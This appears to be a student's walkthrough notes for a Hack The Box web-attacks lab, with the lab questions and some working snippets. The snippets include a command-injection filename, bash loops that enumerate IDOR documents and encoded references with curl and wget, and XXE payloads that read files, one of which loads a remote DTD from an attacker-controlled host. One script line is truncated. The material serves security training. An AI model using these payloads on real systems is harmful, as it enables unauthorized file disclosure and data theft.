# [HTB] Web Attacks

## Bypassing Basic Authentication

>**Q. Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.**

## Bypassing Security Filters
 
>**Q. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./**

## Mass IDOR Enumeration

>**Q. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**
```sh
sudo nano documents.sh
sudo chmod +x documents.sh
```
```sh
#!/bin/bash


for i in {0..50}; do
        for link in $(curl -X POST http://83.136.250.34:49965/documents.php -d >
                wget -q http://83.136.250.34:49965/$link
        done
done
```
```sh
./documents.sh

```

## Bypassing Encoded References

>**Q. Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**
```sh
sudo nano encode.sh
sudo chmod +x encode.sh
```
```sh
#!/bin/bash


for i in {1..20}; do
    for hash in $( (echo -n $i | base64 -w 0) |jq -sRr @uri); do
        curl -s "http://83.136.250.34:36131/download.php?contract=$hash"
    done
done
```


## IDOR in Insecure APIs

>**Q. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?**

## Chaining IDOR Vulnerabilities

>**Q. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.**

## Local File Disclosure

>**Q. Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.**
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
## Advanced File Disclosure

>**Q. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**

```dtd
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.1:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration

>**Q. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**

## Web Attacks - Skills Assessment

>**Q. Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.**
